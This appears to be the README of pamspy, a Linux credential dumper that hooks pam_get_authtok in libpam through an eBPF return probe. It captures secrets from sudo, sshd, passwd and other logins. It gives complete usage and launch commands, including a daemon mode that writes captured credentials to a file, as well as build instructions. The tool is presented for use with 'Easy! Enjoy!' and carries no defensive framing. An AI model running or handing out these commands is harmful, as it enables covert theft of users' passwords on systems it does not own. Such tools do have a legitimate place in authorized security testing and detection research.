

# pamspy -- Credentials Dumper for Linux

`pamspy` leverage eBPF technologies to achieve an equivalent work of [3snake](https://github.com/blendin/3snake).

It will track a particular userland function inside the PAM (Pluggable Authentication Modules) library, used by many critical applications to handle authentication like:
* sudo
* sshd
* passwd
* gnome
* x11
* and many other ...



## How to launch?

`pamspy` is built as a static binary without any dependencies, and available on the [release]() page.

```
Usage: pamspy [OPTION...]
pamspy

Uses eBPF to dump secrets use by PAM (Authentication) module
By hooking the pam_get_authtok function in libpam.so

USAGE: ./pamspy -p $(/usr/sbin/ldconfig -p | grep libpam.so | cut -d ' ' -f4) -d /var/log/trace.0

  -d, --daemon=PATH TO OUTPUT CREDENTIALS
                             Start pamspy in daemon mode and output in the file
                             passed as argument
  -p, --path=PATH            Path to the libpam.so file
  -r, --print-headers        Print headers of the program
  -v, --verbose              Verbose mode
  -?, --help                 Give this help list
      --usage                Give a short usage message
  -V, --version              Print program version

Mandatory or optional arguments to long options are also mandatory or optional
for any corresponding short options.

Report bugs to .

```

As `pamspy` rely on libpam, we have to set the path where libpam is installed on your distribution. To find where libpam is installed you can run the following command :

```
> /usr/sbin/ldconfig -p | grep libpam.so | cut -d ' ' -f4
/lib/x86_64-linux-gnu/libpam.so.0
```

Once you get the path you can launch `pamspy` :

```
> ./pamspy -p /lib/x86_64-linux-gnu/libpam.so.0
```

An easy way to launch `pamspy` is to use the following command :

```
> ./pamspy -p $(/usr/sbin/ldconfig -p | grep libpam.so | cut -d ' ' -f4)
```

`pamspy` can also be started as a daemon by providing an output file where credentials will be written:

```
./pamspy -p $(/usr/sbin/ldconfig -p | grep libpam.so | cut -d ' ' -f4) -d /tmp/credentials
```

## How to build?

To build the static binary, we need third-party program. For eBPF we need `clang` to compile the C code into eBPF CO-RE code.
We also rely on `bpftool` to create a skeleton from ebpf program to include it in our userland program. Then we need also `libelf` to find the correct symbol in libpam.

```
sudo apt install make clang-11 gcc libelf-dev bpftool
```

Then just build!

```
git clone https://github.com/citronneur/pamspy --recursive
cd pamspy/src
make
```

## How does It works?

`pamspy` will load a userland return probe eBPF program to hook the `pam_get_authtok` function from `libpam.so`. 
PAM stands for "Pluggable Authentication Modules", and have a flexible design to manage a different kind of authentication on Linux.

Each time an authentication process tries to check a new user, It will call `pam_get_authtok`, and will be here to dump the content of the critical secrets!

Easy! Enjoy!

## Credits and references

Thanks to @blendin for 3snake tool !!!

